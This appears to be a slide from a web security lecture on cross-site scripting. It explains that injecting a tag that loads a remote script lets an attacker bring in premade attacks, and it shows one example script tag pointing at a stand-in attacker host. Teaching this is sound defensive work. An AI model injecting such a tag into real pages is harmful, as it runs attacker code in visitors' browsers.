

# External Scripts
Example show injecting scripts directly
Small scripts work but are limited by the size of the input
Loading remote scripts allows us to include premade attacks
It is simple to load a remote file
<script src="http://evil.site/bad.js">
</script>